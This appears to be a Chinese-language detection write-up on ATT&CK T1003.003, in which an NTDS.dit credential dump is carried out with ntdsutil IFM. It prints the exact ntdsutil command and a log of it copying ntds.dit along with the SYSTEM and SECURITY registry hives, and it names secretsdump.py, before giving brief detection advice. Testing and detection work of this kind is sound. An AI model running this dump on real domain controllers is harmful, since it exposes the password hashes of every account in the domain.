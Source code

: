 # T1003-003-Win-基于NTDS凭证转储2

## 来自ATT&CK的描述

攻击者可能试图访问或创建Active Directory域数据库的副本，以便窃取凭据信息，以及获取有关域成员（例如设备，用户和访问权限）的其他信息。默认情况下，NTDS文件（NTDS.dit）位于%SystemRoot%\NTDS\Ntds.dit域控制器中。

除了在活动的域控制器上查找NTDS文件之外，攻击者还可能搜索包含相同或相似信息的备份。

下列工具和技术可用于枚举NTDS文件和整个Active Directory哈希的内容。
- 卷影复制
- secretsdump.py
- 使用内置的Windows工具ntdsutil.exe
- 调用卷影副本

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。
默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。但通常存储在其他逻辑驱动器上。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

使用NTDSUtil创建IFM抓取DC本地的Ntds.dit文件。

NTDSUTIL是一个命令行实用程序，在本地工作时需要AD数据库（NTDS.DIT）并支持为DCPROMO创建IFM。DCPROMO将使用IFM以“从媒体介质中安装”，这样服务器就不需要通过网络从另一台 DC 上复制域数据。适用于：Windows Server 2003，Windows Server 2003 R2，带有SP1的Windows Server 2003，Windows Server 2008，Windows Server 2008 R2。

Ntdsutil.exe是一个命令行工具，为Active Directory域服务（AD DS）和Active Directory轻型目录服务（AD LDS）提供管理工具。您可以使用ntdsutil命令来执行AD DS的数据库维护，管理和控制单个主操作，以及删除从网络中删除而未正确卸载的域控制器留下的元数据。该工具仅供有经验的管理员使用

Ntdsutil.exe的是内置在Windows Server 2008和Windows Server 2008 R2。如果您安装了AD DS或AD LDS服务器角色，则可以使用该角色。如果您安装作为远程服务器管理工具（RSAT）一部分的Active Directory域服务工具，它也将可用。

```dos
#!bash
ntdsutil “ac i ntds” “ifm” “create full c:\temp” q q
```

IFM 是一个 NTDS.dit文件的副本，放在**C://temp**目录中。当创建一个IFM时，也会产生并挂载一个VSS快照，同时Ntds.dit文件和相关的数据也被复制到目标文件夹中。

该文件可能存储在一个正在promot的新的DC的共享文件夹中，也可能出现在还没有promot的新的服务器上。
此服务器可能无法确保IFM数据的安全，包括复制Ntds.dit文件并提取凭证数据。这个命令也可以通过 WMI 或 PowerShell 远程执行。（建议使用powershell执行，DOS命令执行异常错误）

## 检测日志

windows 安全日志

## 测试复现

```dos
C:\Windows\system32\ntdsutil.exe: ac i ntds
活动实例设置为“ntds”。
C:\Windows\system32\ntdsutil.exe: ifm
ifm: create full c:\temp
正在创建快照...
成功生成快照集 {ea08df62-9743-4068-aedb-a2c32dfd057f}。
快照 {2d92b366-961f-45f0-9202-9aa6f069139f} 已作为 C:\$SNAP_201911011107_VOLUMEC$\ 装载
已装载快照 {2d92b366-961f-45f0-9202-9aa6f069139f}。
正在启动碎片整理模式...
     源数据库: C:\$SNAP_201911011107_VOLUMEC$\Windows\NTDS\ntds.dit
     目标数据库: c:\temp\Active Directory\ntds.dit

                  Defragmentation  Status (% complete)

          0    10   20   30   40   50   60   70   80   90  100
          |----|----|----|----|----|----|----|----|----|----|
          ...................................................

正在复制注册表文件...
正在复制 c:\temp\registry\SYSTEM
正在复制 c:\temp\registry\SECURITY
快照 {2d92b366-961f-45f0-9202-9aa6f069139f} 已卸载。
在 c:\temp 中成功创建 IFM 媒体。
ifm: q
C:\Windows\system32\ntdsutil.exe: q
```

## 测试留痕

暂无

## 检测规则/思路

建议针对进程、进程命令行参数进行监控。针对进程、进程命令行监控需要特定的环境，比如配置审核策略、采集sysmon日志等。

## 参考推荐

MITRE-ATT&CK-T1003-003

<https://attack.mitre.org/techniques/T1003/003>

NTDSutil简介

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753343(v=ws.10)?redirectedfrom=MSDN>
